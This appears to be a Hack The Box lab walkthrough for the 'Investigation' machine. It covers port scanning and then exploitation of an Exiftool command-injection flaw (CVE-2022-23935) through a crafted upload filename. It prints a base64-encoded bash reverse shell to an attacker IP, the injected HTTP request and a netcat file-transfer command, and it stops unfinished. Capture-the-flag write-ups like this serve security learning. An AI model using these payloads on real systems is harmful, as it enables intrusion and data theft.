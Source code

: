 # Hack The Box - Investigation Walkthrough

## Reconnaissance
Retrieving the IP address of the machine, I started a quick inital Nmap scan to see which ports are open and which services are running on those ports.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ nmap -Pn -T4 -p- --min-rate=1000 -sV 10.10.11.197
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 10:38 EDT
Warning: 10.10.11.197 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.197
Host is up (0.12s latency).
Not shown: 65479 closed tcp ports (conn-refused), 54 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.49 seconds
```


Before starting the enumeration, I wanted to check if any other ports were open, so I ran `rustscan` to quickly check if any other ports were open.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ rustscan -a 10.10.11.197 --range 1-65535
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.197:22
Open 10.10.11.197:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.11.197

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 10:40 EDT
Initiating Ping Scan at 10:40
Scanning 10.10.11.197 [2 ports]
Completed Ping Scan at 10:40, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:40
Completed Parallel DNS resolution of 1 host. at 10:40, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 10:40
Scanning 10.10.11.197 [2 ports]
Discovered open port 22/tcp on 10.10.11.197
Discovered open port 80/tcp on 10.10.11.197
Completed Connect Scan at 10:40, 0.12s elapsed (2 total ports)
Nmap scan report for 10.10.11.197
Host is up, received syn-ack (0.13s latency).
Scanned at 2023-03-16 10:40:47 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

So, `nmap` & `rustscan`, both, found `2` open ports:
- port `22`: running `OpenSSH 8.2p1`
- port `80`: running `Apache httpd 2.4.41`

## Enumeration
I started the enumeration by visiting the web portal on port `80`. Before visiting the portal I added the host to my `/etc/hosts` file. 

```
sudo echo `10.10.11.197 eforenzics.htb` >> /etc/hosts
```

The portal allowed users to upload a `JPG` file and provide analytical information.

![image](https://user-images.githubusercontent.com/87711310/225653950-d92f3ab8-8c30-4113-9992-40ee8eb46e30.png)

I uploaded an image and clicked the link it provided, there was a text file that contained `Exiftool` output details and the version of `Exiftool` was also given, which was `12.37`

![image](https://user-images.githubusercontent.com/87711310/225654341-6aa794bb-a18f-4265-9cd5-9d13b1ef2561.png)

So, i googled about `Exiftool 12.37` and I found out that it was vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)

In a nutshell, if the attacker provides a file with a name ending with | character, the tool will treat it as a pipe and execute it as an OS command.

So, I decided to start `BurpSuite` to intercept the packet, and changed the `filename` parameter to a `ping` command to verify the vulnerability/

![image](https://user-images.githubusercontent.com/87711310/225663455-a48458b1-4d5f-452c-bd35-c67c75643492.png)

To obtain the reverse shell, I need to replace the `ping` command with the `reverse-shell` payload in the `filename` parameter. It turned out that the machine escaped some characters like `/`. So, I decided to `Base64` encode the script:

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==
```

And change the filename through `BurpSuite`:

```
# BurpSuite
POST /upload.php HTTP/1.1
Host: eforenzics.htb
...
...
-----------------------------322887901231410547541681300375
Content-Disposition: form-data; name="image"; filename="echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg=='|base64 -d|bash|"
Content-Type: image/jpeg

<DATA>
```

I clicked send, and I got the shell instantly

![image](https://user-images.githubusercontent.com/87711310/225668776-cbb21aad-d090-494d-ad28-364838666f49.png)

I was logged in as `www-data`, enumerating the machine I found out that I did not have the permission to view the `smorton` folder. So, I had to escalate my privileges

```
www-data@investigation:~$ cd /home
cd /homel
www-data@investigation:/home$ s
ls
smorton
www-data@investigation:/home$ cd smorton
cd smorton
bash: cd: smorton: Permission denied
www-data@investigation:/home$ 
```

I was stuck at this part for a while but after looking at all the folder for a possible way to escalate the privileges, I found out that there was a `investigation` folder inside the `/usr/local` folder.

```
www-data@investigation:/$ cd /usr
cd /usr
www-data@investigation:/usr$ cd /local
cd /local
www-data@investigation:/usr$ cd local
cd local
www-data@investigation:/usr/local$ ls
ls
bin
etc
games
include
investigation
lib
man
sbin
share
src
```

The files in the directories were:

```
www-data@investigation:/usr/local/investigation$ ls -la *
ls -la *
-rw-rw-r-- 1 smorton  smorton  1308160 Oct  1 00:35 Windows Event Logs for Analysis.msg
-rw-rw-r-- 1 www-data www-data       0 Oct  1 00:40 analysed_log
```

The `Windows Event Logs for Analysis.msg` was a Microsoft Outlook Message, meaning I had to transfer it to my machine and look to convert the message.

```
www-data@investigation:/usr/local/investigation$ file "Windows Event Logs for Analysis.msg"
<igation$ file "Windows Event Logs for Analysis.msg"
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
```

So, I used `netcat` to transfer the file from the victim machine to my machine.

```
nc  10.10.14.8 10000 < Windows\ Event\ Logs\ for\ Analysis.msg 
```

TBC
